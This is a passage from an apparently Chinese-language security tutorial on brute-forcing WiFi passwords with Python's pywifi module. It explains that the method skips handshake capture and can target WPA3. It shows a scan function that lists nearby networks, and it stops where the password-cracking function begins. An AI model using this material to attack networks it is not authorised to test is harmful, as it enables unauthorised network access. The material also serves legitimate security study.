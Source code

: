 [![](assets/1710899986-cea08f54616a2c74371c450705621be5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240303112139-2610e7f6-d90d-1.png)

### Python-pywifi 模块

pywifi 是通过直接操作网卡去爆破，这种方法的特点就是不需要握手包，但是出奇的慢。可以用于 WPA3 加密，如果 WIFI 是 WPA2 加密推荐还是通过破解握手包方式获取密码

```plain
import pywifi
import time
from pywifi import const


def scan():
    wifi = pywifi.PyWiFi()
    interface = wifi.interfaces()[0]
    interface.scan()
    for i in range(4):
        time.sleep(1)
        print('\r扫描 WiFi 中（' + str(3 - i), end='）')
    print('\r扫描完成\n' + '-' * 38)
    print('\r{:4}{:6}{}'.format('编号', '信号强度', 'wifi名'))
    bss = interface.scan_results()
    wifi_name_set = set()
    for w in bss:
        wifi_name_and_signal = (100 + w.signal, w.ssid.encode('raw_unicode_escape').decode('utf-8'))
        wifi_name_set.add(wifi_name_and_signal)
    wifi_name_list = list(wifi_name_set)
    wifi_name_list = sorted(wifi_name_list, key=lambda a: a[0], reverse=True)
    num = 0
    while num < len(wifi_name_list):
        print('\r{:<6d}{:<8d}{}'.format(num, wifi_name_list[num][0], wifi_name_list[num][1]))
        num += 1
    print('-' * 38)
    return wifi_name_list


def wifi_password_crack(wifi_name):
```